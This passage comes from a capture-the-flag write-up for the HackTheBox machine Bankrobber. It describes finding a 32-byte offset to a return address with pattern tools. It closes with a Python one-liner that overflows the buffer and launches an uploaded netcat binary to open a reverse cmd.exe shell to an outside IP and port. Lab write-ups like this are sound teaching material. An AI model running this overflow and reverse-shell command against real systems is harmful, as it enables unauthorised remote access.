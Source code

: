 

We can see that we've overflown the value of the executable it's running. This means that the value for whatever this binary executes next, is stored on the stack itself and we've successfully overflown it.


To get the correct offset to the EIP I will use `pattern_create`:

![create-41](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/create-41.png)


I supply this to the program and get the value that the program tries to exceute:

![value-42](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/value-42.png)


I take the first four bytes and supply them to `pattern_offset`:

![offset-43](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/offset-43.png)


The return address sits 32 bytes form the start of the buffer. From here, we can try to execute the `nc` file which we uploaded to the target in order to get a shell from this, using something like this:

```bash
python -c 'print "A"*32 + "\\Users\\Cortin\\AppData\\Local\\Temp\\n.exe -e cmd.exe 10.10.14.89 9001"'
```
